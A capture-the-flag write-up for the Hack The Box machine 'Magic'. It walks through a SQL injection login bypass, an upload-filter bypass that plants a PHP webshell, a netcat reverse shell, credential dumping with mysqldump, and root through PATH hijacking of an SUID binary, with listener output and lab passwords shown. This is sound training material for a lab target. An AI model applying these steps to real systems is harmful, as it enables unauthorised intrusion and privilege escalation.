





# Magic - Medium

Target IP: **10.129.66.57**

## User Flag

Initial scan: ```sudo nmap -sC -sV 10.129.66.57 -v```

Output shows standard port 22 for ssh and port 80 running Apache 2.4.29.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's navigate to the website.

It seems like an image gallery with the option to upload images if we login.


We can log in after pressing the log in button on the bottom left corner. Let's see if we can get a free win with common credentials.

It doesn't work, so let's try something else.


Let's capture a dummy request and see what it does. It sets a ```PHPSESSID``` for us.


A weird behavior that I noticed from the log in page was that if both the username and password were typed in and one was wrong, it displays an error message in an alert box, but if only the password was typed, it still processes the request but just returns us back to the log in page without an error message. This lead me to believe that not entering the username was probably breaking the underlying SQL query.

Let's try a basic SQLi payload.


After forwarding the request, we successfully log in. We are redirected to ```/upload.php```.


There is some kind of filtering going on in the backend that we need to bypass. The error message tells us that only ```JPG```, ```JPEG```, and ```PNG``` files are allowed.



Our goal is to upload a reverse shell and navigate to it so we can catch a shell back. We can try capturing a POST request on the upload page and experiment with the extensions and MIME types.

After sending a request changing the ```.php``` file extension to ```.php.jpg``` and adding the magic bytes for ```.jpeg```, we get a different response. The website knows what we are trying to do.

It seems like editing the file extension to contain ```.jpg``` after a php extension gives us this message back.



We can still try to brute force for extensions that the filter might have missed.

The extension ```.php.jpeg``` works.



Now we need to figure out where the file is stored. On the home page of the website, the images are displayed. We can right click on the images and open it on a new tab, which directs us to ```/images/uploads/<filename>```. Our shell is stored there.

Our file exists. I do get a connection back but it is unstable, so let's try a webshell first.



After navigating to it, we have a foothold. Let's initiate a connection back for a reverse shell.



We get a shell as ```www-data```.

```
┌──(y㉿peacebreaker)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.68] from (UNKNOWN) [10.129.66.223] 36448
bash: cannot set terminal process group (1149): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/Magic/images/uploads$
```

Digging around a bit, we find database credentials.

```
www-data@ubuntu:/var/www/Magic$ cat db.php5 
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
```

However, the MySQL binary isn't installed on the remote machine.

```
www-data@ubuntu:/tmp$ mysql      
mysql_config_editor        mysqld
mysql_embedded             mysqld_multi
mysql_install_db           mysqld_safe
mysql_plugin               mysqldump
mysql_secure_installation  mysqldumpslow
mysql_ssl_rsa_setup        mysqlimport
mysql_tzinfo_to_sql        mysqloptimize
mysql_upgrade              mysqlpump
mysqladmin                 mysqlrepair
mysqlanalyze               mysqlreport
mysqlbinlog                mysqlshow
mysqlcheck                 mysqlslap
```

Mysqldump seems like it can be useful. After using the binary with the credentials, we dump the information inside the database and get these credentials.

```
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
```

It looks like we will be logging in as the ```theseus``` user.

```
www-data@ubuntu:/tmp$ cat /etc/passwd | grep 'sh'
root:x:0:0:root:/root:/bin/bash
theseus:x:1000:1000:Theseus,,,:/home/theseus:/bin/bash
sshd:x:123:65534::/run/sshd:/usr/sbin/nologin
```

Authenticating through ssh doesn't work, but we can try switching users locally.

```
theseus@ubuntu:/var/www/Magic/images/uploads$ whoami
whoami
theseus
```

It works! We can proceed to get the user flag from here.

## Root Flag

```sudo -l``` reveals we can't run sudo as ```theseus```.

Looking binaries with the SUID bit set, ```/bin/sysinfo``` is interesting.

Running ```strings /bin/sysinfo``` gets us this information.

```
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
```

The binary runs ```cat```, but without an absolute path. We might be able to hijack the PATH variable to make the binary run a malicious file named ```cat```.

Let's add ```/tmp``` to ```$PATH```.

```
theseus@ubuntu:~$ export PATH=/tmp:$PATH                    
export PATH=/tmp:$PATH
theseus@ubuntu:~$ echo $PATH
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

We place the malicious ```cat``` inside the directory.

```
theseus@ubuntu:/tmp$ ls
cat  chisel  Magic
```

After we run ```sysinfo```, we get a shell back as ```root```.

```
┌──(y㉿peacebreaker)-[~]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.16.68] from (UNKNOWN) [10.129.66.223] 51312
root@ubuntu:/tmp# whoami
whoami
root
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
